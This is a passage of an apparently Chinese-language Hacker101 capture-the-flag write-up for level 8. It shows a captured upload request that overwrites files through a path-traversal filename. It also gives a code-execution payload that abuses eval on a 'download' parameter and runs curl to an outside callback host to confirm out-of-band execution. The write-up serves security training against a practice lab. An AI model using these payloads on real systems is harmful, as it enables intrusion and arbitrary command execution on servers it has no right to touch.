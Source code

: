 ```
POST /level8/post_index HTTP/1.1
Host: levels-b.hacker101.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://levels-b.hacker101.com/level8
Cookie: __cfduid=d479a6128517cfcbef11858640e05c57b1517904353; _ga=GA1.2.410155586.1517904356; _gid=GA1.2.518095736.1522759101; session=.eJyrVkouLkpTsqpWUkhSslKKCnGsinIJLfd1Sa-Kyg018HWJNPUNSTb2dXHK9g8JNIoM96yKykrJ8g0JtFWq1VEqTi0uzkxBaM_1rPIP98r1d_EsBxpjElkVWRWVbgtUWgsA25Mhkw.DaUJVg.ABSSPJf2ADHFWCup3ZSJpD27AzI
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------2062164199649
Content-Length: 439

-----------------------------2062164199649
Content-Disposition: form-data; 

e03d50083fe406917700d946ab3f7c14
-----------------------------2062164199649
Content-Disposition: form-data; 

aaaa
-----------------------------2062164199649
Content-Disposition: form-data; 
Content-Type: application/octet-stream

read-handler.py
-----------------------------2062164199649--
```

修改 filename 为需要覆盖的文件，我们可以拿 level 5 中的目录遍历漏洞查看写入的内容。问题出现 doc.save(‘level8_sandbox/‘ + filename) ，filename 可以是包含 “.” 和 “/“ 的路径。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1522763213195.png)

### [](#SQL-Injection-2 "SQL Injection")SQL Injection

### [](#Code-Execution "Code Execution")Code Execution

漏洞在下载功能处，命令执行点 download = eval(download）。接收参数 download，但是没有输出，我们可以用服务器接收输出。

即外带式命令执行漏洞。

```
https://levels-b.hacker101.com/level8/view/13151?download=__import__('os').system('curl http://83i93o.ceye.io?from-hacker101')
```

查看 http 请求，发现请求过来了，命令执行成功了。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1523069644629.png)
